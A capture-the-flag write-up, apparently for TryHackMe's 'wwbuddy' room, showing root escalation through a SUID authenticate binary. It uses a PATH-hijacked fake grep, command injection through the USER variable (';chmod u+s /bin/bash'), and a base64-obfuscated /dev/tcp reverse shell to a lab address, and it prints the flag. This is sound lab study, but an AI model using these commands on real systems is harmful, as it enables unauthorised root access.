

As you can see, this is the major code:
```C
if (getuid() > 0x3e7)
    {
        if (system("groups | grep developer"))
        {
            char* rax_4 = getenv("USER");
            uid_t uid = getuid();
            setuid(0);
            int64_t line;
            __builtin_strncpy(&line, "usermod -G developer ", 0x2d);
            strncat(&line, rax_4, 0x14);
            int32_t var_54_1 = system(&line);
            puts("Group updated");
            setuid(uid);
            system("newgrp developer");
        }
        else
            puts("You are already a developer.");
    }
    else
        puts("You need to be a real user to be authenticated.");
```

Okay, so it checks for the first command, if `system("groups | grep developer")` returns 1, it jumps over the code.

So, let's put this code inside grep, we can adjust the `PATH` variable for that:
```bash
#!/bin/bash
exit 1
```
Then, it'll return fail, because it tells the `system` it failed, and then it'll move to next instructions.

Okay, after, we can see it gets the enviroment variable `USER`, append it to the string `usermod -G developer {USER}`, and execute it using `system`, as root.

What if we'll put inside `USER` something like `;id` ?

Let's try:
```bash
echo -e '#!/bin/bash\nexit 1' > /tmp/grep
chmod +x /tmp/grep
export USER=';id'
export PATH=/tmp:$PATH
/bin/authenticate
```



WOW, now let's change the variable to get other command to execute:
```bash
export USER=';chmod u+s /bin/bash'
```

we managed to add SUID bit to `/bin/bash`, game over..



Okay, since there is limit of length (becuase of the code), let's insert our payload into file:
```bash
echo -e '#!/bin/bash\nprintf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzIuMTY4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash' > /tmp/rev_shell.sh      
chmod +x /tmp/rev_shell.sh                                                                                                             
export USER=';/tmp/rev_shell.sh'                                                                                                       
/bin/authenticate
```
This is the payload for `penelope` reverse shell.



```bash
root@wwbuddy:/root# cat root.txt 
THM{ch4ng3_th3_3nv1r0nm3nt}
```

Notice, this wasn't the intended solution, I think we needed to move to `jenny`, and from there to move to `root`.
The bypass was the trick with `grep`, that i bypassed the developer check :D

